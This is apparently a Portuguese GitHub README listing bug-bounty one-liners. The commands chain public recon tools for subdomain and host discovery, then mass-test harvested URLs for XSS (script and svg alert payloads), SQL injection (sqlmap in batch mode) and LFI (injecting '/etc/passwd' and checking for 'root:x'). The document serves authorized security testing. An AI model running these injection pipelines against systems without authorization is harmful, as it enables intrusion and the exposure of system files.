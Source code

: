 # Liners_bounty
UMA SÉRIE DE ONELINERS PARA BUG BOUNTY

[Blog do Eike](https://ei7hacker.blogspot.com/)

[HTTPX](https://github.com/projectdiscovery/httpx)

[SUBFINDER](https://github.com/projectdiscovery/subfinder)

[HTTPROBE](https://github.com/tomnomnom/httprobe)

[ASSETFINDER](https://github.com/tomnomnom/assetfinder)

[ANEW](https://github.com/tomnomnom/anew)

[waybackurls](https://github.com/tomnomnom/waybackurls)

[FREQ](https://github.com/takshal/freq)

[AIRIXSS](https://github.com/ferreiraklet/airixss)

[GF](https://github.com/tomnomnom/gf)

### subdominios
```bash
 subfinder -d yahoo.com -o domains ; echo "yahoo.com" | assetfinder | tee -a domains ; wait ; cat domains | anew subs
```
### hosts 
```bash
subfinder -d hackerone.com | httpx  -o hosts

echo "hackerone.com" | assetfinder | httprobe | tee -a hosts

```
### status-code 
```bash
subfinder-d yahoo.com | httpx -status-code

subfinder-d yahoo.com | httpx -status-code -mc 200

subfinder-d yahoo.com | httpx -status-code -mc 300
```
### FIND XSS WITH FREQ AND QSREPLACE

```bash
echo "exemplo.com" | waybackurls | grep "=" | qsreplace "<script>alert(1)</script>" | freq 
```
### FIND WITH AIRIXSS

```bash
echo "exemplo.com" | waybackurls | gf xss | qsreplace "<svg onload=alert(1)>" | Airixss -payload "alert(1)" | egrep -v "Not"
```
###  FIND MASSIVE SQLI
```bash
waybackurls http://testphp.vulnweb.com | gf sqli | tee -a sqli.txt ; wait ; sqlmap -m sqli.txt --batch --random-agent --level 1
```
###  FIND LFI WITH GAU
```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
### FIND ENDPOINT IN JS
```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
